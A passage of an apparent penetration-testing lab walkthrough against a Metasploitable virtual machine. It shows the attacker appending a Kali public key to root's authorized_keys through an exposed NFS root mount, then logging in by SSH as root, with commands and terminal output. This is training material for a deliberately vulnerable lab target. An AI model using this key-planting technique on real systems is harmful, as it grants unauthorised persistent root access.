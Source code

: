 Step 2: Install the key onto the target over the NFS root mount

```
root@kali:~# ll /mnt/root/.ssh/authorized_keys
-rw-r--r-- 1 root root 405 May 17  2010 /mnt/root/.ssh/authorized_keys
root@kali:~#
root@kali:~# cat /mnt/root/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable
root@kali:~#
root@kali:~# cat ~/.ssh/id_rsa.pub >> /mnt/root/.ssh/authorized_keys
root@kali:~#
root@kali:~# cat /mnt/root/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0kBlVF5lXk0vwB7cnOwsIZQOHzoAjkBh+sVZ0IeiUuW9afsSnEA56PGPh5rULNMhEI9fpCzu6nYpu1gA7i/F6in4Pd3UilRPH17cmqHCwfASSN03BTPypdRSSwyHamaTGarop2ZTeeuO+DxSx86FVwTo1LKsfal5rHI86y81zFrWb5Z3TDKPvEog47/3kMdEyYerXxYu/YT3JbaP6BQQo9+OfDa/PI4Qd5Q8aY0cIMUW/RGVnT5ERbGcNk/5TpZRoYVmnvvLyIG+xdGL82xG0brpcmYBi8Njla39mqOjWodjRg/CNbGk5QZI2CG5CdnuI3VbdSwTZovW79xTTKaHf root@kali
```

Step 3: SSH in to the target system

```
root@kali:~# ssh target
The authenticity of host 'target (172.16.243.143)' can't be established.
RSA key fingerprint is SHA256:BQHm5EoHX9GCiOLuVscegPXLQOsuPs+E9d/rrJB84rk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'target,172.16.243.143' (RSA) to the list of known hosts.
Last login: Wed Mar 21 14:49:58 2018 from 172.16.243.144
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~# id
uid=0(root) gid=0(root) groups=0(root)
root@metasploitable:~# hostname
metasploitable
```
